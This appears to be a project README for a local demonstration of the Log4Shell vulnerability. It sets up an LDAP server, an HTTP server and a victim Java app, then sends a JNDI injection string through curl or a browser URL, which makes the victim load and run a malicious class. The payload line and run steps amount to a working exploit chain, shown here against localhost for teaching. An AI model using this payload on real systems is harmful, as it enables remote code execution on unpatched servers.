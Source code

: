 LDAP and Log4j attack landscape

## Setup

1. Install a Java SDK. It works e.g. with Oracle SDK Version 8 or OpenJDK Version 11
2. Clone this project:

```
git clone git@github.com:abhi608/ldap_attacks.git
```

3. Go into the folder:

```
cd log4j-log4shell-exploit
```

## Run the demo

On Windows use `mvnw.cmd` instead of `./mvnw`

1.) Build the project:

```
./mvnw package
```

2. Start the LdapServer:

```
./mvnw exec:java -D"exec.mainClass"="de.predic8.LdapServer"
```

2.) Start the HttpServer:

```
./mvnw exec:java -D"exec.mainClass"="de.predic8.HttpServer"
```

3.) Start the victim:

```
./mvnw exec:java -D"exec.mainClass"="de.predic8.Opfer"
```

4.) Use curl or your browser to invoke the following URL:

```
curl 'http://localhost:8000/hallo?name=$\{jndi:ldap://localhost:10389/cn=badcode,dc=predic8,dc=de\}'
```

or open in your browser:

```
http://localhost:8000/hallo?name=${jndi:ldap://localhost:10389/cn=badcode,dc=predic8,dc=de}
```

The victim application will write into its log and the ldap query will be executed. The result of the Ldap query will make the victim loading the malicious class from the HTTP server and executing it.
